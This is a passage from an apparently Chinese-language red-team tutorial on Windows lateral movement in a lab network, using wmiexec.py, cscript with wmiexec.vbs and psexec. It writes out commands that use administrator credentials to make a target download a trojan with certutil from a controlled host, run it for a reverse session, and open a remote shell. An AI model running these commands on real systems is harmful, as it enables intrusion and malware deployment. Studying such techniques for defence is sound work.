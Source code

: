 ![image-20230629093742245](https://s2.loli.net/2023/06/30/MCLlzRW7AqV3o5r.png)

### 横向移动

到这里我们就可以开始横向移动了，这里还是以前提前将木马上传到受控主机的web目录下， 然后让目标主机下载。这里我就不演示上传木马了，直接让目标主机下载吧。

#### 文件上传目标主机

这里的木马，是无法直接使用访问外网上线了，需要设置转发上线，不要搞错了，设置完毕后，再上传木马到受控主机中，让目标主机去受控主机上下载木马。

```
wmiexec.py ./administrator:admin@123@192.168.20.30 "cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/3333.exe c:/3333.exe"
```

![image-20230629094356688](https://s2.loli.net/2023/06/30/JbBmEpSXKOziG1k.png)

#### 执行木马

上传后就可以执行木马了，这里我们也看到是成功反弹会话了，同样这里是反向木马，想要使用正向木马，也简单，这里我就不演示了。

```
wmiexec.py ./administrator:admin@123@192.168.20.30 "cmd.exe /c c:/3333.exe"
```

![image-20230629095540602](https://s2.loli.net/2023/06/30/9KSWxpJzcE5Im72.png)

# cscript介绍

Cscript 是 Windows 脚本宿主的一个版本，可以用来从命令行运行脚本。同时也是一个内置的命令，但是这个命令无回显，所以这里就需要使用到一些脚本，来让其成功回显。

[wmiexec](https://github.com/AA8j/SecTools/tree/main/wmiexec.vbs)

## cscript操作演示

不过这里有个问题就是cscript是交互式的，所以再CS中无法操作，只有将文件上传到受控主机上，使用受控主机去连接目标主机，不过正常来说使用cscript还是比较少的，主要是麻烦。

```
cscript //nologo wmiexec.vbs /shell 192.168.20.30 administrator admin@123
```

![image-20230629114006650](https://s2.loli.net/2023/06/30/R12s4zDt6XKGomZ.png)

# psexec

利用SMB服务可以通过明文或hash传递来远程执行,条件445服务端口开放。psexec 是pstools 微软官方软件中的一个工具，是 windows 下非常好的一款远程命令行工具。psexec的使用不需要对方主机开方3389端口，只需要对方开启admin$共享 (该共享默认开启)。但是，假如目标主机开启了防火墙，psexec也是不能使用的，会提示找不到网络路径。由于psexec是Windows提供的工具，所以杀毒软件将其列在白名单中。但是PsExec在内网中大杀四方后，很多安全厂商开始将PsExec加入了黑名单。

[psexec](https://learn.microsoft.com/zh-cn/sysinternals/downloads/psexec)

## psexec基础演示
